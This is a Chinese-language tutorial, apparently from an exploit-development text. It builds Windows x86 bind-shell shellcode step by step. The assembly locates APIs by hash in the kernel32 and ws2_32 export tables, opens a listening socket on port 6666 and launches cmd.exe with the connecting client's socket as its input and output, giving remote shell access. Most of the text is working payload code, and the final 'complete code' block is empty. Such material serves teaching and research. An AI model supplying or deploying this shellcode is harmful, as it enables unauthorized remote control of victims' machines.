当kernel32中所需的全部被找到并获取地址后，需要调用LoadLibrary("ws2_32")，然后用获得的基址去定位winsock需要的其它函数。

后面调用WSAStartup函数时，为了避免内存错误，还需要一个比较大块的栈空间来初始化WSADATA结构体。

我们在栈中存储字符串“ws2_32"及其指针的代码如下：

```asm
xor edx,edx   ;若之前确定edx=0，此指令可省略
mov dh, 0x03
sub esp, edx ；栈顶抬高 0x0300
mov dx, 0x3233 ；0x32 是 ASCII 字符‘2’，0x33 是字符‘3’
push edx ；edx 此时的内容为 0x00003233，压栈后内存由低到高的
			；方向为 0x33320000
push 0x5f327377 ；“ws2_32”
push esp        ；此时的 esp 指向字符串“ws2_32”
```

假设解析函数地址时 ebp 中存储着动态链接库的基址，esi 指向下一个函数名的 hash 值，edi 指向下一个函数入口地址应该存放的位置。

在读入 hash 值之后，需要找到函数导出表。

```asm
find_lib_functions:
	lodsb	;al = first hash digest of desired function name 
			;esi++

find_functions:
	pushad		;save all pointer: ebp esi edi...
	mov eax, [ebp + 0x3c] ; eax = start of PE NT header of some dll
	mov ecx, [ebp+eax+0x78] ;ecx = offset of export table
	add ecx, ebp			; ecx = aboslute address of export table
	mov ebx, [ecx + 0x20]   ; ebx = offset of name table of export functions
	add ebx, ebp			; ebx = aboslute address of name table
	xor edi, edi			; edi is a index  

```

然后在循环取出名字后，计算名字的hash摘要值：

```x86asm

next_function_loop:
	inc edi
	mov esi, [ebx + edi * 4]	;esi = offset of current function name
	add esi, ebp				;esi = absolute address of function name
	cdq				;clear edx

hash_loop:
	lodsb			;load next char into al and esi ++
	xor al, 0x71	
	sub dl, al
	cmp al, 0x71	;若相同说明al原本为0
	jne hash_loop
```

之后比较导出表中每一个函数名 hash 后得到的摘要，从而找出它们的地址。我们使用的shellcode 装载程序假定 eax 指向 shellcode 的起始地址，且 shellcode 的起始正是存放所需函数hash 摘要的地方，但在 pushad 指令保存所有寄存器状态之后，eax 将被改写，而 eax 原值存储在栈中 esp+0x1c 的地方，所以需要把计算出的 hash 值与 esp+0x1c 所指的 hash 值相比较。

```x86asm
cmp dl, [ esp + 01c]
jnz next_function_loop
```

当跳出next_function_loop时，用edi做计数器，里面记录的循环次数就是找到函数的偏移位置，即ordinal。接着就找这个函数的地址：

```x86asm
mov ebx, [ecx + 0x24]  ;ebx = relative offset of ordinals table
add ebx, ebp           ;ebx = absolute addr of ordinals table
mov di, [ebx + 2 * edi] ;di = ordinal number of matched function
mov ebx, [ecx + 0x1c] ;ebx = relative offset of address table
add ebx, ebp ;ebx = absolute addr of address table
add ebp, [ebx + 4 * edi] ;add to ebp (base addr of module) the
 ;relative offset of matched function 

```

现在 ebp 中已经存放着所需的函数地址了，然而我们希望这个地址由 edi 中的指针引用。可以用 stosd 把地址存到那里，但是需要首先恢复 edi 的原始值。下面这几行代码虽然看起来有点不合常理，但却能够完成这个任务，并且只需要 4 个字节。

```x86asm
xchg eax, ebp ;move func addr into eax
pop edi ;edi is last onto stack in pushad
stosd ;write function addr to [edi]
push edi ;restore the stack ready for popad 
```

现在已经能够完成一个函数名 hash 对应的入口地址的解析了。我们需要保存寄存器状态，然后继续循环执行，直到所需的 8 个函数名的 hash 都被解析出来。回忆一下前面是怎样存放这些函数地址的？对了，最后一个函数地址将准确地把存放函数名 hash 的地方覆盖掉（后面是“cmd”字符串），所以我们可以通过判断 esi 和 edi 两个寄存器中指针的相同来结束用于 API定位的循环体。

```
popad
cmp esi, edi
jne find_lib_functions 
```

这差不多就是解析 API 入口地址的全过程，唯一欠缺的就是从 kernel32.dll 切换到ws2_32.dll 中去解析函数地址了。当搞定前三个函数地址的时候，在执行 find_functions 之前加入下面几行代码来做到动态连接库的切换。

```x86asm
cmp al, 0xd3 	;hash of WSAStartup 相等时就该装载ws2_32.dll了
jne find_functions
xchg eax, ebp	;save current hash，eax会因调用函数而改变
call [edi - 0xc] ;LoadLibraryA 当前edi是存了3个函数地址后的指针，每个地址4byte，所以减0xc。而且当前esp正好指向了“ws2_32”字符串的指针。
xchg eax, ebp 	;restore current hash, and update ebp
				;with base address of ws2_32.dll
push edi 		;save location of addr of first Winsock function 
```

获得了这些函数地址之后，我们需要恰当地调用这些 Winsock 相关的函数。
- 首先需要调用 WSAStartup 来初始化 Winsock。前面已经说过在解析函数的同时就把函数地址存在了栈中，并且是按照调用顺序存放的。因此，可以把函数地址装入 esi
- 然后用 lodsd/call eax 来调用每一个需要的 Winsock 函数。


WSAStartup 函数有两个参数。 
```c++
int WSAStartup(
	WORD wVersionRequested,
	LPWSADATA lpWSAData
); 
```

我们用栈区存储 WSADATA 结构体。由于这是一个[out]参数，且用于函数回写返回值，故不需要专门去初始化这个结构体。前边我们已经为自己开辟了足够大的栈空间，所以这里只要让这个结构体指针指向栈内一块空闲的区域，别让函数在回写返回值的时候冲掉有用的数据或者 shellcode 就行。

```asm
pop esi ;location of first Winsock function
push esp ;lpWSAData
push 0x02 ;wVersionRequested
lodsd	
call eax ;WSAStartup 
```

WSAStartup 返回 0 代表 Winsock 初始化成功（如果非 0，也就不用指望其余的代码能够成功运行了）。所以在 eax 中我们又有一个唾手可得的 NULL 用来做其他事情了。字符串“cmd”后面需要 NULL 作为字符串的结束；其他 Winsock 函数的参数中有不少也是 NULL。如果现在我们把栈中一大片区域都置成 NULL，那么在调用这些函数的时候就可以省去好几条对 NULL的压栈指令。

除此以外，在调用 CreateProcessA 的时候我们只要对这片为 NULL 的栈区稍作“点缀”，就可以初始化出一个 STARTUPINFO 结构体。

```asm
;返回值存与eax，为0
mov byte ptr [esi+0x13],al
lea ecx, [eax+0x30]
mov edi,esp
rep stosd
```

WSASocket函数有6个参数：
```c++
SOCKET WSASocket(
	int af,
	int type,
	int protocol,
	LPWSAPROTOCOL_INFO lpProtocolInfo,
	GROUP g,
	DWORD dwFlags
); 
```

我们只关心前两个参数，其余的都将设置 NULL。对于 af 参数，这里将传入 2(AF_INET)，对于 type，传入 1（SOCK_STREAM）。由于栈区已经被初始化成 NULL，所以其余的 NULL参数压栈操作都可以省去了。

此外函数将返回一个 socket，在后面的调用中(bind 等)还要用到它。由于这里的 API 调用都不会修改 ebp 的值，所以我们可以用单字节的指令 xchg ebp, eax 把返回的 socket 保存在 ebp中，而不是用两个字节的压栈指令存入栈中。

```asm
inc eax
push eax ;type = 1 (SOCK_STREAM)
inc eax
push eax ;af = 2 (AF_INET)
lodsd 
call eax ;WSASocketA
xchg ebp, eax ;save SOCKET descriptor in ebp 
```

下面要让得到的 socket 监听客户端的连接，也就是调用 bind 函数，它有 3 个参数。
```c++
int bind(
	SOCKET s,
	const struct sockaddr* name,
	int namelen
 ); 
```

作为一个普通的程序员，通常可能会认为要正确地调用 bind 函数，首先需要完成以下工作。
- （1）创建并初始化一个 sockaddr 结构体。
- （2）把结构体的大小压入栈中。
- （3）把结构体的指针压入栈中。
- （4）把 socket 压入栈中。

如果打破这种常规的思维方式，我们可以做得更巧妙。
- 首先，大多数结构体的名字都允许为空，所以只用关心 sockaddr 中前两个成员变量。```short sin_family``` 和 ```u_short sin_port ```

- 其次，指明结构体大小的参数不一定真的就是精确的结构体长度。前面已经说过，只要这个参数足够大就行。所以这里将用 0x0a1a0002 作为指明结构体的大小的参数。其中，0x1a0a 是十进制的 6666，后面会被再次用作端口号；0x02 则还可用作指明 AF_INET。不巧的是，这个 0x0a1a0002 中包含一个字节的 null，所以不能直接引用这个 DWORD，必须用点心思巧妙地把它构造出来。

```
mov eax, 0x0a1aff02
xor ah, ah 	;remove the ff
push eax 	;"length" of our structure, and its first two members
push esp 	;pointer to our structure
push ebp 	;saved SOCKET descriptor
lodsd
call eax ;bind 
```

结构体中其他为NULL的部分就不用我们再去操心了，因为整个栈都已经被置成了NULL。后面还需要调用 listen 和 accept 函数，这两个函数的定义如下。
```c++
int listen(
	SOCKET s,
	int backlog
); 

SOCKET accept(
	SOCKET s,
	struct sockaddr* addr,
	int* addrlen
 ); 
```
对于这两个函数，调用的关键是我们前边已经存在 ebp 中的 socket，其他的参数还是一律传 NULL。accept 函数将返回另一个 socket 用来表示客户端的连接，而 bind 和 listen 函数调用成功时会返回 0。注意到这一点之后，可用返回值是否是 NULL 来作为循环结束的条件，在一个循环体中完成 3 次函数调用，而不是占用宝贵的 shellcode 空间来重复调用 3 次。读到这里，您就能明白前边把函数地址按照调用的顺序在栈里摆放的好处了。这个部分的代码如下。
```
call_loop:
	push ebp ;saved SOCKET descriptor
 	lodsd
 	call eax 		;call the next function
 	test eax, eax 	;bind() and listen() return 0,
 					;accept() returns a SOCKET descriptor 
	jz call_loop 
```

还缺一点就要大功告成了，我们还要接受客户端的连接，把 cmd.exe 作为子进程运行起来，并且用客户端的 socket 作为这个进程的 std 句柄，最后正常退出。

CreateProcess 函数有 10 个参数，对我们而言，最关键的参数是 STARTUPINFO 结构体。就是这个结构体指明了“cmd”字符串，并把客户端的 socket 作为其 std 句柄。STARTUPINFO 的大多数成员变量都可以是 NULL，所以用栈区被置过 NULL 的区域来初始化这个结构体。我们需要把 STARTF_USESTDHANDLES 标志位设为 true，然后把客户端的socket（由 accept 函数返回，现在应该存在 eax 中）传给 hStdInput、hStdOutput 和 hStdError（其实如果不管 stderr，还可以节省出一条单字节指令）。
```asm

 	;initialise a STARTUPINFO structure at esp
inc byte ptr [esp + 0x2d] ;set STARTF_USESTDHANDLES to true
sub edi, 0x6c ;point edi at hStdInput in
 	;STARTUPINFO
stosd ;set client socket as the stdin
 	;handle
stosd ;same for stdout
stosd ;same for stderr (optional) 
```

最后就是调用 CreateProcess 函数。这段代码需要解释的东西不多，只要注意选取最短小精悍的指令就行。例如，由于栈中大片空间已经被设置 NULL，故可以用单字节的短指令“pop eax” 来为寄存器清零，而不是用两个字节的指令“xor eax, eax”；可以用单字节指令“push esp”来 压入一个 true，而不是双字节的指令“push 1”。由于 PROCESSINFORMATION 结构体是一个[out]型的参数，可以把它指向栈区的[in]参数STARTUPINFO 结构体。 

```asm
 pop eax ;set eax = 0 (STARTUPINFO now at esp + 4)
push esp ;use stack as PROCESSINFORMATION
 ;structure (STARTUPINFO now back to esp)
push esp ;STARTUPINFO structure
push eax ;lpCurrentDirectory = NULL
push eax ;lpEnvironment = NULL
push eax ;dwCreationFlags = NULL
push esp ;bInheritHandles = true
push eax ;lpThreadAttributes = NULL
push eax ;lpProcessAttributes = NULL
push esi ;lpCommandLine = "cmd"
push eax ;lpApplicationName = NULL
 call [esi - 0x1c] ;CreateProcessA 
```

现在，客户端已经能获得一个 shell 了，当然最后还要调用 exit 函数让程序能够正常地退出。
```
call [esi - 0x18] ;ExitProce–ss 
```

完整代码如下

```asm

```

最后，需要再次注意，这段代码假设 eax 指向 shellcode 的开始位置，在具体使用时可能还需稍作调整。
